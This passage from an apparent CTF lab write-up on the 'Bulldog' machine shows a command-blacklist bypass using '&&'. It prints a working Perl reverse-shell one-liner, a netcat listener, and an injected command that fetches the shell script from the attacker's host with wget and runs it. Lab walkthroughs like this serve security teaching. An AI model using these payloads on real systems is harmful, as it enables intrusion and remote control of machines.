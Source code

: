 Interesting... Luckily, there are many bypasses for such simple blacklist. For example using encoding (didn't work this time) or some other alternatives such as `&&` (AND operator). All in all, `&&` successfully bypasses the blacklist and gives us the ability to enter any command of our choosing. Wonderful.

Proof:
<img src="/img/blog/bulldog/Bulldog10.png">
   
Time to get a sweet shell. This writeup is *metesploit-free* which means we will depend on manual exploitation and reverse connection rather than using msfvenom & handler. Sorry!

1. Make a perl file in our webroot (/var/www/html/)
2. Put perl reverse shell payload into our file (look below)
3. Start our apache2 or python SimpleHTTPServer (*/etc/init.d/apache2 start*)
4. Make the victim download our malicious file via wget from the server & run it.

[Perl shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):
{% highlight perl %}

use Socket;$i="192.168.0.213";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};

{% endhighlight %}

`192.168.0.213 - machine for reverse connection (in this case my kali)`

`1234 - port to connect back to` 

We launch netcat listener - `nc -lvp 1234`, download and run the perl file on victim machine using: `pwd && wget 192.168.0.213/shell.pl && perl shell.pl`. *wget* retrieves the file from our webserver and *perl* compiles + runs it. 
